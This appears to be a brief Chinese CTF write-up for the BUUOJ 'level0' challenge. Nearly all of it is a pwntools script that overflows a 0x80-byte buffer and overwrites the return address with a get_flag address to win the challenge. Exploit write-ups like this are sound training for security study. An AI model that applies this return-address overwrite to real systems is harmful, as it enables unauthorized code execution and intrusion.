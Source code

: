 这道题就是一个很基础的pwn，溢出之后直接覆盖返回地址为get_flag的地址就可以

```python
from pwn import *

#io = process('./level0')
io = remote('node3.buuoj.cn',28376)

payload = 'a'*0x80 + 'b'*8 + p64(0x400596)

io.recvline()
io.sendline(payload)

io.interactive()
```

